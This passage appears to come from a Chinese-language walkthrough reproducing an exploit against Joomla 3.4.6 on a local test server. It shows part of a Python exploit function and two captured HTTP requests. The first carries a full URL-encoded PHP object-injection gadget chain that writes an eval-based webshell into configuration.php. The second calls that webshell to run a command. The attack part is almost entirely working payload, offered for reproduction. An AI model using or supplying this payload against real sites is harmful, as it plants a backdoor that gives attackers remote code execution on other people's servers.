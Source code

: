 ```
        print_info('Sending request ..')
        resp  = requests.post(url, proxies = PROXS, cookies = cook,data=params)
        return resp.text
```

下面是通过Burpsuite抓包获取的写入webshell的请求包3

```
POST /Joomla/3.4.6/index.php/component/users HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: dc674b0eef3d2412c63832504cf5ac18=bg7tprkie898gu5luh1it52ga3
Content-Length: 1136
Content-Type: application/x-www-form-urlencoded

username=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0&amp;password=AAA%22%3Bs%3A11%3A%22maonnalezzo%22%3AO%3A21%3A%22JDatabaseDriverMysqli%22%3A3%3A%7Bs%3A4%3A%22%5C0%5C0%5C0a%22%3BO%3A17%3A%22JSimplepieFactory%22%3A0%3A%7B%7Ds%3A21%3A%22%5C0%5C0%5C0disconnectHandlers%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3BO%3A9%3A%22SimplePie%22%3A5%3A%7Bs%3A8%3A%22sanitize%22%3BO%3A20%3A%22JDatabaseDriverMysql%22%3A0%3A%7B%7Ds%3A5%3A%22cache%22%3Bb%3A1%3Bs%3A19%3A%22cache_name_function%22%3Bs%3A6%3A%22assert%22%3Bs%3A10%3A%22javascript%22%3Bi%3A9999%3Bs%3A8%3A%22feed_url%22%3Bs%3A217%3A%22file_put_contents%28%27configuration.php%27%2C%27if%28isset%28%24_POST%5B%5C%27scgcapjoqwokhrtmlutbljpzmqzwcbncowtiztctfekiwtfzay%5C%27%5D%29%29+eval%28%24_POST%5B%5C%27scgcapjoqwokhrtmlutbljpzmqzwcbncowtiztctfekiwtfzay%5C%27%5D%29%3B%27%2C+FILE_APPEND%29+%7C%7C+%24a%3D%27http%3A%2F%2Fwtf%27%3B%22%3B%7Di%3A1%3Bs%3A4%3A%22init%22%3B%7D%7Ds%3A13%3A%22%5C0%5C0%5C0connection%22%3Bi%3A1%3B%7Ds%3A6%3A%22return%22%3Bs%3A102%3A&amp;option=com_users&amp;task=user.login&amp;03b291424900343c59f58ad131d087a7=1

```

5.连接webshell测试是否写入成功

[![](https://p1.ssl.qhimg.com/t01c41149da3c4df1c4.png)](https://p1.ssl.qhimg.com/t01c41149da3c4df1c4.png)

通过burpeuite抓到的请求包4：

```
POST /Joomla/3.4.6//configuration.php HTTP/1.1
Host: 127.0.0.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 70
Content-Type: application/x-www-form-urlencoded

scgcapjoqwokhrtmlutbljpzmqzwcbncowtiztctfekiwtfzay=echo+%27PWNED%27%3B

```
